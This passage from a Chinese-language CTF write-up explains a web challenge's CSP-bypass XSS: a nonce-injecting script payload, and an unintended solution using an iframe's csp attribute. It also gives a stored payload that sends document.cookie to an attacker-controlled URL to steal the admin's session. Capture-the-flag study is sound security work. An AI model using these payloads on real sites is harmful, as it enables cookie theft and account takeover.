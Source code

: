 ```

<textarea id=intro name=intro>
</textarea>

</form>

<script>
	intro.textContent = "</textarea><script nonce="+location.hash.slice(1)+">alert(document.cookie);</scr"+"ipt>";
	document.forms[0].submit();
</script>

```
- getflag

值得一题的是，由于id会不停的变化，所以如何动态构造payload或如何在一次请求中完成攻击是这个题原来思路最大的难点...


### 非预期解 ###

在比赛结束后，[@tyage](https://twitter.com/tyage/status/1001307576296861696)在twitter公布了一个非预期解，其中利用的方式非常有意思。

在关于CSP的标准中，iframe有一个csp属性，用于设置iframe引入页面时，为页面加载设置csp

[https://w3c.github.io/webappsec-csp/embedded/#csp-attribute](https://w3c.github.io/webappsec-csp/embedded/#csp-attribute)

形似
```
<iframe csp='...'>
```
在这里我们可以注意到，csp是通过js引入meta设置的，这里就有了优先级问题，在iframe引入一个页面时为其设置了csp，首先我们需要明白的一件事情是，通过meta设置的多个CSP是会同时生效。

但浏览器解析是逐句执行的，假设我们通过iframe的csp做如下的设置
```
test<iframe src=/profile.php?id=b0ad3eba1569915665b4452a5ca0c816a33c1d64f11d1a99fa3d1ee402aad3c8 csp="script-src 'unsafe-inline';">
```

那么profile.php这个页面首先就会存在第一个CSP unsafe-inline，这个CSP会直接作用于下面的js解析，包括通过script引入的csp.js，就会被拦截。

这样一来，当前页面的有效CSP就为unsafe-inline，我们下面插入的代码就会成立

利用链如下：
- 注册user1，设置profile内容为
```
<script>location.href='{xss_url}?a=document.cookie'</script>
```
- 获取该id为user1_id
- 注册user2，设置profile内容为
```
test<iframe src=/profile.php?id={user1_id} csp="script-src 'unsafe-inline';">
```
- 获取user2_id，然后发送给管理员
- get flag

